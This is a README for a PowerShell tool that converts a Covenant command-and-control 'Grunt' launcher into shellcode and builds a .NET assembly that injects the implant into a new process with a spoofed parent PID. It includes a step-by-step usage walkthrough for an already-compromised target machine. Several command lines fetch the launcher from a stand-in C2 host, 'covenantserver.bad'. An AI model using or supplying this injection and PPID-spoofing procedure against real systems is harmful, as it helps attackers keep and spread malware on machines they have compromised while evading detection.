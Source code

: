# Generate-GruntInjector

A PowerShell script that turns a Covenant Grunt launcher into a .NET assembly that can be coupled with Covenant's `Assembly` command to achieve process injection in Covenant.

## Installation / Getting started

The script relies on [Donut](https://github.com/TheWover/donut) to convert the Grunt launcher .NET assembly into shellcode. Follow their installation and compilation instructions and ensure donut.exe is either in your PATH or note its path.

Clone this repository.

```shell
git clone https://github.com/tgihf/covenant-grunt-injection.git
```

The script uses `csc.exe` to compile the Grunt injector. If you'll be targeting machines with `csc.exe` for .NET 3.5, make sure you have .NET 3.5 installed. If you'll be targeting machines with csc.exe for .NET 4.0 installed, make sure you have .NET 4.0 installed.

## Usage

> Scenario: you have a functional Grunt on a target machine and want to inject a Grunt into another process.

Host a Binary Launcher. Note the .NET Framework Version. 

![](gif/host-binary-launcher.gif)

Run `Generate-GruntInjector` with the URL the Binary Launcher is hosted on, the path to `donut.exe`, and the .NET Framework version the Binary Launcher is compiled against.

![](gif/generate-grunt-injector.gif)

This produces a Grunt injector, which by default is named `GruntInjector_<timestamp>_v<.NET Framework version>.exe`. This .NET assembly injects a Grunt into an new, arbitrary process with an arbitrary PPID. 

Check which processes are running on the target with your functional Grunt. I'll be using the PID of this `powershell.exe` process as my PPID.

![](gif/examine-processes.gif)
  
Navigate to your functional Grunt's `Task` page and select the `Assembly` task.

Give it an arbitrary `AssemblyName`.

Set the `EncodedAssembly` parameter to your new Grunt injector.

For the `Parameters` parameter, give it the full path of the executable you'd like to inject into and the PPID you'd like to spoof.

![](gif/grunt-injection.gif)

Click `Task` and profit!

![](gif/confirm-injection.gif)

### Arguments
#### LauncherURL
Type: `String`  

URL of the Grunt binary launcher hosted on your Covenant server. It will be downloaded from the Covenant server and inserted into the injection assembly. 

```cmd
Generate-GruntInjector.ps1 -LauncherURL https://covenantserver.bad/woo
```

#### InputFile
Type: `String`

Full path to the Grunt binary launcher on disk. It will be read and inserted into the injection assembly.

```cmd
Generate-GruntInjector.ps1 -InputFile C:\Users\covenant\Desktop\launcher.exe
```

#### DotNetFrameworkVersion
Type: `Float`

Options: `3.5` or `4.0`

Default: `4.0`

Specifies which version of the .NET Framework to compile the injection assembly against. 

**IMPORTANT**: This should match the .NET Framework version that the original Grunt binary launcher was compiled against. You can view and modify this on the Launcher > Binary page. You must have which ever version you choose installed on your machine.

```cmd
Generate-GruntInjector.ps1 -LauncherURL https://covenantserver.bad/woo -DotNetFrameworkVersion 3.5
```

#### DonutPath
Type: `String`

Default: `"donut.exe"`

Full path to donut.exe. Installation instructions found [here](https://github.com/TheWover/donut).

```cmd
Generate-GruntInjector.ps1 -LauncherURL https://covenantserver.bad/woo -DonutPath C:\Users\covenant\Desktop\donut\donut.exe
```

#### Outfile
Type: `String`

Default: `"GruntInjector_<timestamp>_v<.NET Framework version>.exe"`

Full path to write the injector assembly to.

```cmd
Generate-GruntInjector.ps1 -LauncherURL https://covenantserver.bad/woo -Outfile C:\Users\covenant\Desktop\covenant\injector.exe
```

## Links

This project is merely an automation of [Rasta Mouse's](https://rastamouse.me) [Covenant/Donut process injection technique](https://rastamouse.me/2019/08/covenant-donut-tikitorch/). All creds to him for doing the heavy thinking!

The project relies heavily on [Donut](https://github.com/TheWover/donut), a phenomenal project that allows us to convert the Grunt launcher .NET assembly into position-independent shellcode. Thank you, [TheWover](https://thewover.github.io) and [Odzhan](https://modexp.wordpress.com)!

This project is a helper tool for [Cobbr's](https://cobbr.io) [Covenant](https://github.com/cobbr/Covenant). Thanks for pioneering such a great project!

## Licensing

The code in this project is licensed under MIT license.
